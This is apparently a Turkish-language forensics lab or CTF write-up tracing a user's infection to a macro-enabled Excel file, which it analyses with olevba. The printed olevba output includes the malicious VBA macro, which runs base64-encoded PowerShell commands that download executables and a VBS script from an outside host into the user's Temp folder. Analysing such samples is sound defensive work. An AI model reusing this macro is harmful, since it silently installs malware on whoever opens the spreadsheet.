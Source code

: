 ```

![image](https://user-images.githubusercontent.com/88983987/220381371-a3e8dc2b-831f-43cd-aee6-5ebef2eec975.png)

```
"notamalware.vbs"
"BodyMassIndex.exe"
"accesstoken.exe"
```

Fakat Rick Martin bir Excel dosyasını doldurduktan sonra bunların yaşandığını söylüyor. Bu durumda bu malware dosyalarını droplayan bir excel makro dosyası olmalı.

Bu dosyayı Rick Martin'in "Downloads" klasöründe bulabiliyoruz. Ayrıyeten Outlook gibi uygulamalar dosyaları belirli bir dizine kaydettiği için, kullanıcının web tabanlı bir mail yöneticisi kullandığını düşünebiliriz.

![image](https://user-images.githubusercontent.com/88983987/220381815-1d48f468-5413-428d-b2a9-fbd4c1674cab.png)

"BodyMassIndex.xlsm"

Elimiz değmişken bunu da inceleyelim:) İncelemek için ```"oletools"``` paketi içerisinden ```"olevba.py"``` dosyasını kullanacağız.

https://github.com/decalage2/oletools

```
┌──(root㉿kali)-[/home/kali/Desktop/oletools/oletools]
└─# python olevba.py ../../Body\ Mass\ Index.xlsm 
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.2dev1 on Python 3.11.1 - http://decalage.info/python/oletools
===============================================================================
FILE: ../../Body Mass Index.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

    

Sub Button1_Click()

    Dim Boy As Long
    Dim Kilo As Long
    Dim Ara As Long
    Dim WshShell, BtnCode
    Set oshell = CreateObject("WScript.Shell")
    Set WshShell = CreateObject("WScript.Shell")
    Set shellapp = CreateObject("Shell.Application")
    oshell.Run "powershell -encodedcommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AbwBmAGIAYQBoAGEAcgAuAGMAbwBtAC8AbgBvAHQAYQBtAGEAbAB3AGEAcgBlAC4AdgBiAHMAIAAtAE8AdQB0AEYAaQBsAGUAIABDADoAXABVAHMAZQByAHMAXABSAGkAYwBrAE0AYQByAHQAaQBuAEcAcgBpAG0AZQBzAFwAQQBwAHAARABhAHQAYQBcAEwAbwBjAGEAbABcAFQAZQBtAHAAXABuAG8AdABhAG0AYQBsAHcAYQByAGUALgB2AGIAcwA="
    oshell.Run "powershell -encodedcommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AbwBmAGIAYQBoAGEAcgAuAGMAbwBtAC8AYQBjAGMAZQBzAHMAdABvAGsAZQBuAC4AZQB4AGUAIAAtAE8AdQB0AEYAaQBsAGUAIABDADoAXABVAHMAZQByAHMAXABSAGkAYwBrAE0AYQByAHQAaQBuAEcAcgBpAG0AZQBzAFwAQQBwAHAARABhAHQAYQBcAEwAbwBjAGEAbABcAFQAZQBtAHAAXABBAGMAYwBlAHMAcwBUAG8AawBlAG4ALgBlAHgAZQA="
    oshell.Run "powershell -encodedcommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AbwBmAGIAYQBoAGEAcgAuAGMAbwBtAC8AQgBvAGQAeQBNAGEAcwBzAEkAbgBkAGUAeAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVQBzAGUAcgBzAFwAUgBpAGMAawBNAGEAcgB0AGkAbgBHAHIAaQBtAGUAcwBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwAFwAQgBvAGQAeQBNAGEAcwBzAEkAbgBkAGUAeAAuAGUAeABlAA=="
    
